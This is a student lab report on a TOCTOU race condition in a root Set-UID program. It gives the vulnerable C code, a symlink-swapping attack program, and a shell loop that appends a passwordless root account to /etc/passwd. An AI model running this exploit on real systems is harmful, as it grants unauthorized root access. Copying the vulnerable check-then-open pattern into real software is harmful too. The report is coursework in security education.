



# CIS 751 Lab Assignment 3
### Author: Chuck Zumbaugh
### Collaborators: None

## Task 1
In this task we will verify that the Ubuntu "magic password" allows us to login by just pressing the return key. To do this, we will maodify the `/etc/passwd` file as a superuser and create a test account with the following line. This indicates the account name is "test", the password is `U6aMy0wojraho`, the user ID is 0 (root), the group ID is 0 (root), the description is "root", the home directory is `/root`, and the default shell is `/bin/bash`.
```sh
test:U6aMy0wojraho:0:0:root:/root:/bin/bash
```

Indeed, as Figure 1 demonstrates, we can successfully log into the test account with no password, and we have a root shell.



## Task 2
In this task, we will exploit a race condition in a vulnerable program to create a test user with root privileges by adding the line from Task 1 to `/etc/passwd`. The vulnerable program is a root-owned Set-UID program shown below.

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* Get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+"); // TOCTOU vulnerability between access() and fopen()
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission\n");
}
```

We then create a file, `passwd_input`, with the following contents.

```sh
test:U6aMy0wojraho:0:0:root:/root:/bin/bash
```

We will use symbolic links to attack the vulnerable program. Specifically, we will use a program that creates a symbolic link from `/tmp/XYZ` to either `/etc/passwd` or a regular file (`myfile` in this case). We have write permission to `myfile` but not `/etc/passwd`. Thus, our goal is for the following sequence of events to occur.

1. `/tmp/XYZ` is symbolically linked to `myfile`
2. The vulnerable program executes `access(fn, W_OK)`. Since `access()` checks if the real-UID has write permission for the file, it should succeed for `myfile` but not `/tmp/passwd`.
3. `/tmp/XYZ` is symbolically linked to `/etc/passwd`.
4. The vulnerable program executes `fopen(fp, "a+")`. Since `fopen()` checks the effective-UID (root in this case due to Set-UID), it should succeed for both `myfile` and `/tmp/passwd`.

We will use the following attack program to run in the background and alternate between symbolic links. This program was then compiled using `gcc attack.c -o attack`.

```c
/* attack.c */
#include <unistd.h>
#include <stdlib.h>

int main()
{
    while(1) {
        /* Create symbolic link to a file we have write access to */
        unlink("/tmp/XYZ");
        // /home/seed/race_cond/myfile is the path to a file we can write to
        symlink("/home/seed/race_cond/myfile", "/tmp/XYZ");
        usleep(10000);

        /* Create symbolic link to the /etc/passwd file we want to write to */
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(10000);
    }
    return 0;
}
```

We also need a program to run the vulnerable program with our input in a loop until it succeeds. Because we are unlikely to succeed on a given iteration, we need to run this many times until one of the iterations is successful and the passwd file is updated. The following program will be used for this.

```sh
# target_process.sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./vulp < passwd_input # Run vulp with our password input
    new=$($CHECK_FILE) # Update the new variable
done
echo "STOP... The passwd file has been changed"
```

With these programs in place, we can now run the `attack` and `target_process.sh` programs in parallel.

```sh
attack & target_process.sh
```

As expected, we see many "No permission" printed to the terminal. However, after some time the commands are executed in the desired order and we are successful.

*Note that the /tmp/XYZ file did need to be removed once as it became root owned. This is due to a race condition in the attack.c program.*



As expected, we have root privileges when we log in as test.

